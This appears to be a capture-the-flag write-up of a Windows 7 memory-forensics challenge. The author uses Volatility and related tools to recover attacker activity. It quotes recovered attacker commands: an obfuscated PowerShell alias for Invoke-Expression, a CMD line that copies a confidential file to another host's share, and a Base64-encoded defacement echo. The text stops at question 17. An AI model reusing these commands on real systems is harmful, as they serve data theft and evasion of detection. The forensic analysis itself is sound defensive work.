# Recollection

**Difficulty:** Easy

**Description:** A Digital Forensics and Incident Response (DFIR) challenge focused on memory forensics and investigating a potentially compromised system running an old and insecure operating system. The investigation involves analyzing a memory dump to identify the actions performed by an attacker and determine whether other assets in the environment may have been affected.

### Investigation Summary

This investigation focused on analyzing a Windows memory dump to identify malicious activities performed by an attacker on a potentially compromised system.

Using Volatility 2 and Volatility 3, I examined memory artifacts to identify system information, running processes, command history, clipboard contents, network connections, and potentially malicious executables.

The investigation also involved extracting files from memory, analyzing browser artifacts, identifying indicators of compromise (IOCs), and examining evidence of potential data exfiltration.

By correlating the collected artifacts, I was able to reconstruct several attacker activities, including PowerShell command execution, file manipulation, user enumeration, and the execution of malicious binaries.

### Tools Used

- **Volatility 2:** Used to analyze the memory dump and investigate processes, command history, network connections, file objects, and other memory artifacts.
- **Volatility 3:** Used to retrieve system information and identify the operating system.
- **Python 2:** Used to execute Volatility 2 commands.
- **PEfile:** Used to analyze the extracted executable and calculate its Import Hash (Imphash).
- **ExifTool:** Used to examine metadata and identify the executable's PE timestamp.
- **SQLite3:** Used to analyze Microsoft Edge browser databases and recover browsing-related information.
- **Base64:** Used to decode an encoded PowerShell command.
- **Linux Command-Line Utilities:** Used to inspect command output and investigate extracted artifacts.

### 1 - What is the Operating System of the machine?

I started using Volatility 3 to analyze the BIN file.

After running `windows.info`, I was able to retrieve useful information about the system.



The NTBuildLab value is `7601.24214.amd64fre.win7sp1_ldr_`, indicating that the system is running Windows 7.

**Answer:**

```text
Windows 7
```

### 2 - When was the memory dump created?

This question can be answered by checking the SystemTime in the `windows.info` output.



The SystemTime is `2022-12-19 16:07:30+00:00`

**Answer:**

```text
2022-12-19 16:07:30
```

### 3 - After the attacker gained access to the machine, the attacker copied an obfuscated PowerShell command to the clipboard. What was the command?

For this question, I used Volatility 2 (`vol.py`) to retrieve the data stored in the clipboard.

The clipboard showed an obfuscated PowerShell command.



**Answer:**

```text
(gv '*MDR*').naMe[3,11,2]-joIN''
```

### 4 - The attacker copied the obfuscated command to use it as an alias for a PowerShell cmdlet. What is the cmdlet name?

This question can be answered by copying the command into PowerShell and executing it.

The command returns `iex`, which is an alias for `Invoke-Expression`.



**Answer:**

```text
Invoke-Expression
```

### 5 - A CMD command was executed to attempt to exfiltrate a file. What is the full command line?

I used `python2 vol.py -f ~/Downloads/recollection.bin --profile=Win7SP1x64 cmdscan` to analyze the command history recovered from the memory dump.

The output shows that the attacker attempted to copy the secret file to their own machine.



**Answer:**

```text
type C:\Users\Public\Secret\Confidential.txt > \\192.168.0.171\pulice\pass.txt
```

### 6 - Following the above command, now tell us if the file was exfiltrated successfully?

To answer this question, it is better to use `python2 vol.py -f ~/Downloads/recollection.bin --profile=Win7SP1x64 consoles`, which provides more detailed information than `cmdscan`.

The output shows that the command failed with the error message `The network path was not found`.



**Answer:**

```text
NO
```

### 7 - The attacker tried to create a readme file. What was the full path of the file?

While analyzing the output of `python2 vol.py -f ~/Downloads/recollection.bin --profile=Win7SP1x64 consoles`, I found that the user attempted to execute a PowerShell command encoded in Base64.

After decoding the Base64, it returns the following command:

```bash
echo 'ZWNobyAiaGFja2VkIGJ5IG1hZmlhIiA+ICJDOlxVc2Vyc1xQdWJsaWNcT2ZmaWNlXHJlYWRtZS50eHQi' | base64 -d
echo "hacked by mafia" > "C:\Users\Public\Office\readme.txt"
```



**Answer:**

```text
C:\Users\Public\Office\readme.txt
```

### 8 - What was the Host Name of the machine?

The output of `python2 vol.py -f ~/Downloads/recollection.bin --profile=Win7SP1x64 consoles` also shows that the attacker used the `net users` command to enumerate user accounts on the system.

The Host Name can be found in `User accounts for \\USER-PC`.



**Answer:**

```text
USER-PC
```

### 9 - How many user accounts were in the machine?

This question can be answered using the output of the command identified in the previous question.

It shows three user accounts under `User accounts for \\USER-PC`.



**Answer:**

```text
3
```

### 10 - In the "\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge" folder there were some sub-folders where there was a file named passwords.txt. What was the full file location/path?

For this question, I used the `filescan` plugin in Volatility and filtered the output for `passwords.txt`.

The output revealed the full file path.



**Answer:**

```text
\Device\HarddiskVolume2\Users\user\AppData\Local\Microsoft\Edge\User Data\ZxcvbnData\3.0.0.0\passwords.txt
```

### 11 - A malicious executable file was executed using command. The executable EXE file's name was the hash value of itself. What was the hash value?

For this question, we can analyze the Volatility `consoles` output again.

It shows that the user attempted to execute an `.exe` file whose name resembles a hash value.



**Answer:**

```text
b0ad704122d9cffddd57ec92991a1e99fc1ac02d5b4d8fd31720978c02635cb1
```

### 12 - Following the previous question, what is the Imphash of the malicious file you found above?

For this question, I used the `dumpfiles` plugin in Volatility to extract the malicious executable from the memory dump.

After extracting the file, I used the `pefile` library to calculate its Imphash.



**Answer:**

```text
d3b592cd9481e4f053b5362e22d61595
```

### 13 - Following the previous question, tell us the date in UTC format when the malicious file was created?

This question was a bit tricky for me because I initially tried to identify the timestamp directly from the memory dump instead of examining the extracted executable.

After using ExifTool to analyze the extracted files, I was able to identify the PE timestamp.



The timestamp was displayed as `2022:06:22 08:49:04-03:00`. Since the question required UTC format, I added three hours to convert it, resulting in `2022-06-22 11:49:04 UTC`.

**Answer:**

```text
2022-06-22 11:49:04
```

### 14 - What was the local IP address of the machine?

For this question, I used the `netscan` plugin in Volatility 2.

The output displays the local and foreign addresses associated with the network connections.



The output shows that the local address is 192.168.0.104.

**Answer:**

```text
192.168.0.104
```

### 15 - There were multiple PowerShell processes, where one process was a child process. Which process was its parent process?

For this question, I used the `pstree` plugin in Volatility 2.

The output displays the processes running on the system. It shows two PowerShell processes, one of which is a child process of `cmd.exe`.



**Answer:**

```text
cmd.exe
```

### 16 - Attacker might have used an email address to login a social media. Can you tell us the email address?

For this question, I used the `filescan` plugin in Volatility 2 to locate the Microsoft Edge browser artifacts, including `History`, `Login Data`, `Web Data`, and `Cookies`.

After extracting the `Web Data` file using `dumpfiles`, I opened it with `sqlite3` and inspected the available tables. In the `autofill` table, I found an entry with the field name `email`, which contained the address `mafia_code1337@gmail.com`.



**Answer:**

```text
mafia_code1337@gmail.com
```

### 17 - Using MS Edge browser, the victim searched about a SIEM solution. What is the SIEM solution's name?

For this question, I used the `filescan` plugin in Volatility 2, filtering for files matching `History`, `Login Data`, `Web Data`, and `Cookies`.

After identifying the relevant file paths, I extracted the browser artifacts using `dumpfiles` and analyzed them with `sqlite3`. By enumerating the database tables, I was able to inspect the browser activity and identify the relevant search entries.

